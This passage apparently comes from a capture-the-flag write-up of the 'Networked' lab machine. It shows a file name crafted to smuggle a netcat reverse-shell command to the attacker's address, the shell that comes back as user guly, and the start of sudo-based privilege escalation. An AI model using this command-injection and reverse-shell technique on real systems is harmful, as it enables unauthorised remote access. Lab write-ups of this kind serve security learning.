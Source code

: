 	touch "123.php; nc 10.10.14.23 6666 -c sh"

I did spent a fair amount of time trying to get the "-e /bin/sh" switch working but it is impossible (?) to get a filename with slashes in it. In Unix slash is hardcoded in the kernel and you just can't do that. I knew that the "-c" switch existed but it took me a while to think of using it. 

	bash-4.2$ touch "123.php; nc 10.10.x.x 6666 -c sh"
	bash-4.2$ ls
	ls
	10_10_14_23.php.jpg
	123.php; nc 10.10.x.x 6666 -c sh
	127_0_0_1.png
	127_0_0_2.png
	127_0_0_3.png
	127_0_0_4.png
	bash-4.2$ 

I ran a listener on another shell on port 6666. Within that 3 minute timeframe I got a shell as the "guly" user. 

	$ nc -l 6666
	ls
	check_attack.php
	crontab.guly
	user.txt
	whoami
	guly

## Root

I did some more enumeration once I got the guly shell. The first thing that really looked significant was this:

	sudo -l
	Matching Defaults entries for guly on networked:
	    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY", secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin
	
	User guly may run the following commands on networked:
	    (root) NOPASSWD: /usr/local/sbin/changename.sh
	
guly could run a shell script called "changename.sh", which is here:

	less /usr/local/sbin/changename.sh
	#!/bin/bash -p
	cat > /etc/sysconfig/network-scripts/ifcfg-guly << EoF
	DEVICE=guly0
	ONBOOT=no
	NM_CONTROLLED=no
	EoF
	
	regexp="^[a-zA-Z0-9_\ /-]+$"
	